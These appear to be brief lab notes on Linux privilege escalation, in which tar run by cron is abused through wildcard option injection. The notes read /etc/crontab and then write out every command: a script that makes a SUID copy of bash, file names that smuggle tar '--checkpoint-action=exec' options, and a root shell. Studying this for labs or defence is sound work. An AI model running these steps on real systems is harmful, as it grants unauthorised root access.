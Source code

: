 # Detection
---
- `cat /etc/crontab`
	- ![[Pasted image 20250430151627.png]]
- ![[Pasted image 20250430151653.png]]

# Exploitation
---
- `cat /usr/local/bin/compress.sh`
	- ![[Pasted image 20250430152724.png]]
- `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh`
- `chmod +x runme.sh`
- `echo "" > '--checkpoint=1'`
- `echo "" > '--checkpoint-action=exec=sh runme.sh'`
- `/tmp/bash -p`
	- ![[Pasted image 20250430154614.png]]